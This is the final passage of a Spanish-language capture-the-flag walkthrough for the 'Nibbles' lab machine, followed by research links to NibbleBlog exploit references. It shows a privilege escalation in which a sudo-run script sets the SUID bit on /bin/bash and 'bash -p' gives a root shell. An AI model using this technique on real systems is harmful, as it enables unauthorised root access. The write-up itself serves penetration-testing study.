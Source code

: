 Comprobamos los permisos de la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash 
-rwxr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Ejecutamos el script con el comando **sudo**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

Y ya deberían estar cambiados los permisos de la **Bash**:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Nos metemos a la **Bash** y buscamos las flags:
```bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
```
¡Y listo! Ya completamos esta máquina.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>


* https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html
* https://www.exploit-db.com/exploits/38489
* https://www.tecmint.com/linux-server-health-monitoring-script/
* https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d
* https://berserkwings.github.io/PentestNotes/#
* https://github.com/dix0nym/CVE-2015-6967


<br>
# FIN
